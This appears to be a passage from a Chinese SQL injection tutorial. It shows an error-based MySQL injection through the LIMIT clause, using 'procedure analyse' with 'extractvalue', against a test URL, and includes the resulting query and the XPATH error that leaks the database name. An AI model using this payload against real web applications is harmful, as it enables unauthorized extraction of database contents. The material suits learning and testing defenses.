 ## 0x03 爆当前连接的数据库

web语句: http://www.test.com/limit_sql.php?limit=1 procedure analyse(extractvalue(rand(),concat(0x3a,database())),1)

数据库语句: select * from tdb_goods ORDER BY goods_cate limit 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,database())),1);

```plain
mysql> select * from tdb_goods ORDER BY goods_cate limit 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,database())),1);
ERROR 1105 (HY000): XPATH syntax error: ':test'
```